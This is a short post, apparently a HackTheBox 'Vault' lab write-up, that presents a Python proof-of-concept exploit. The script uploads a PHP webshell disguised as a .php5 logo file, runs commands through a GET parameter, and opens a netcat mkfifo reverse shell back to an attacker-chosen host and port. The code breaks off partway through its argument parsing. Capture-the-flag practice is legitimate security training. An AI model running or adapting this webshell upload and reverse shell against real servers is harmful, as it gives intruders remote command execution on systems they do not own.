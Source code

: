 Created a simple PoC in Python. I missed building my own Python scripts!

```python
import argparse
import urllib.parse
import random
import requests
import sys
import string
import textwrap
import urllib

def exploit(target, command):

    characters = string.ascii_letters
    filename = ''.join(random.choice(characters) for i in range(6)) + '.php5'
    url = f'http://{target}/sparklays/design/changelogo.php'
    webshell = textwrap.dedent('''\
        <?php
        $cmd = system($_GET['fc8358bcf09e4b3947d1975622a9df14']);
        ?>''')

    files = {
        'file': (filename, webshell, 'application/x-php'),
        'submit': (None, 'upload file', None)
    }
    
    response = requests.post(url, files=files)
    
    if 'successfully' in response.text:
        print(f'\n[+] {filename} successfully uploaded!')
    else:
        print(f'\n[!] Could NOT upload the file :(')
        sys.exit(1)

    # execute command
    url = f'http://{target}/sparklays/design/uploads/{filename}?fc8358bcf09e4b3947d1975622a9df14={urllib.parse.quote(command)}'

    print(f"\n[+] Command injected:\n\n{command}")
    print(f"\n[+] Target URL:\n\n{url}")
    
    response = requests.get(url, timeout=3)

    if response.text:
        print(f"\n[+] Output:\n\n{response.text}")

def rev_shell(target, lhost, lport):

    revshell = f'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {lhost} {lport} >/tmp/f'

    try:
        exploit(target=target, command=revshell)
        print("\n[!] Could NOT establish a reverse shell :(")
        sys.exit(1)
    
    except requests.Timeout:
        print('\n[+] Check your Netcat listener! :D')

def set_arguments():
    parser = argparse.ArgumentParser(
        description="HTB Vault Exploit"
    )
    parser.add_argument('-t', '--target', required=True, dest='target')
```